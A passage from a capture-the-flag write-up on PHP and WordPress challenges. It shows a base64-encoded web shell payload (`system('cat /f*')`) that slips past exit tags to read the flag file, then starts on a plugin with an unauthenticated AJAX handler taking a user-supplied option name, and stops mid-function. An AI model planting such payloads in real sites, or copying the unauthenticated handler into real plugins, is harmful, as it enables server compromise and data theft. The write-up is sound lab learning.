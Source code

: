 > Then when the `file_put_contents` try to write the file, it will delete the previous tags
```php
PD9waHAgc3lzdGVtKCdjYXQgL2YqJyk7Pz4K # not deleted because located outside of php tags
```

> Finally will perform base64 decode
```php
<?php system('cat /f*');?> # final content written to file
```

Then we can access the uploaded content, and retrieve the flag
![](image-33.png)

Flag obtained!
![](image-34.png)

**Flag: CTF{you_bypass_the_exit_nice_8b31009122dd}**

---

### Up To You

> it's all up to you.  
>  
> NOTE: This is a fully white box challenge, almost no heavy brute force is needed.

In this challenge, we were given three plugins. Flag is saved in the private posts. So the objective is to leak private post.
![](image-35.png)

Let's started with custom plugins named `test-plugin`.

```php
if ( ! defined( 'WPINC' ) ) {
	die;
}

define( 'PLUGIN_NAME_PLUGIN_NAME', 'test-plugin' );
define( 'PLUGIN_NAME_VERSION', '1.0.0' );
define( 'PLUGIN_NAME_URL', plugin_dir_url( __FILE__ ) );
define( 'PLUGIN_NAME_PATH', plugin_dir_path( __FILE__ ) );
define( 'PLUGIN_NAME_BASE_DIR', plugin_dir_path( __FILE__ ) );
define( 'PLUGIN_NAME_BASE_NAME', plugin_basename( __FILE__ ) );

add_action("wp_ajax_nopriv_uptoyou", "uptoyou");

function uptoyou(){
    $option_name = $_POST["option_name"];
```